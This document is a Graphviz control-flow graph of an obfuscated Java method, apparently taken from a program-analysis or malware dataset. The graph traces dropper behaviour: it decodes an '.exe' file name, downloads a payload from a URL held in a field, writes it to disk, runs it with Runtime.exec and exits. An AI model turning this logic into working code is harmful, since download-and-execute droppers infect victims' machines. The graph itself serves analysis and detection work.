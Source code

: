 digraph "" {
    "r0 := @this: Java"
    "load.r r0"
    "r0 := @this: Java"->"load.r r0";
    "virtualinvoke <Java: java.lang.String YHRJNGEBVBGYHEUJ()>"
    "load.r r0"->"virtualinvoke <Java: java.lang.String YHRJNGEBVBGYHEUJ()>";
    "ifnull load.r r0"
    "virtualinvoke <Java: java.lang.String YHRJNGEBVBGYHEUJ()>"->"ifnull load.r r0";
    "ifnull load.r r0"->"load.r r0";
    "fieldget <Java: java.lang.String[] FDGEHFVJEK>"
    "load.r r0"->"fieldget <Java: java.lang.String[] FDGEHFVJEK>";
    "push 3"
    "fieldget <Java: java.lang.String[] FDGEHFVJEK>"->"push 3";
    "new java.lang.StringBuilder"
    "push 3"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] FDGEHFVJEK>";
    "fieldget <Java: java.lang.String[] FDGEHFVJEK>"->"push 3";
    "arrayread.r"
    "push 3"->"arrayread.r";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \".2.e.6.5.7.8.6.5.\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".2.e.6.5.7.8.6.5.\"";
    "staticinvoke <Java: java.lang.StringBuilder YHDUJCreatedbyFoxxyFYUHEJF(java.lang.String)>"
    "push \".2.e.6.5.7.8.6.5.\""->"staticinvoke <Java: java.lang.StringBuilder YHDUJCreatedbyFoxxyFYUHEJF(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>"
    "staticinvoke <Java: java.lang.StringBuilder YHDUJCreatedbyFoxxyFYUHEJF(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.Object)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "arraywrite.r"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"arraywrite.r";
    "new java.io.FileOutputStream"
    "arraywrite.r"->"new java.io.FileOutputStream";
    "store.r $r12"
    "new java.io.FileOutputStream"->"store.r $r12";
    "load.r $r12"
    "store.r $r12"->"load.r $r12";
    "load.r $r12"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] FDGEHFVJEK>";
    "fieldget <Java: java.lang.String[] FDGEHFVJEK>"->"push 3";
    "push 3"->"arrayread.r";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "arrayread.r"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"load.r $r12";
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"
    "load.r $r12"->"virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>";
    "new java.net.URL"
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "fieldget <Java: java.lang.String GUYHEGJNMKGDGH>"
    "load.r r0"->"fieldget <Java: java.lang.String GUYHEGJNMKGDGH>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "fieldget <Java: java.lang.String GUYHEGJNMKGDGH>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>";
    "push 0L"
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"->"push 0L";
    "push 16777216L"
    "push 0L"->"push 16777216L";
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"
    "push 16777216L"->"virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>";
    "pop"
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"->"pop";
    "pop"->"load.r $r12";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r12"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "new java.io.File"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] FDGEHFVJEK>";
    "fieldget <Java: java.lang.String[] FDGEHFVJEK>"->"push 3";
    "push 3"->"arrayread.r";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "arrayread.r"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean exists()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "ifeq load.r r0"
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq load.r r0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "ifeq load.r r0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] FDGEHFVJEK>";
    "fieldget <Java: java.lang.String[] FDGEHFVJEK>"->"push 3";
    "push 3"->"arrayread.r";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "arrayread.r"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "ifnull push 0"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"ifnull push 0";
    "push 0"
    "ifnull push 0"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto goto goto return"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto goto goto return";
    "goto goto return"
    "goto goto goto return"->"goto goto return";
    "goto return"
    "goto goto return"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <java.lang.System: void exit(int)>"->"store.r $r12";
    "store.r $r12"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] FDGEHFVJEK>";
    "push 4"
    "fieldget <Java: java.lang.String[] FDGEHFVJEK>"->"push 4";
    "push 4"->"arrayread.r";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"staticinvoke <java.lang.System: void exit(int)>";
    "ifnull push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "staticinvoke <java.lang.System: void exit(int)>"->"goto goto goto return";
    "ifeq load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] FDGEHFVJEK>";
    "fieldget <Java: java.lang.String[] FDGEHFVJEK>"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"staticinvoke <java.lang.System: void exit(int)>";
    "ifnull load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] FDGEHFVJEK>";
    "fieldget <Java: java.lang.String[] FDGEHFVJEK>"->"push 4";
    "push 4"->"arrayread.r";
    "arrayread.r"->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"staticinvoke <java.lang.System: void exit(int)>";
}
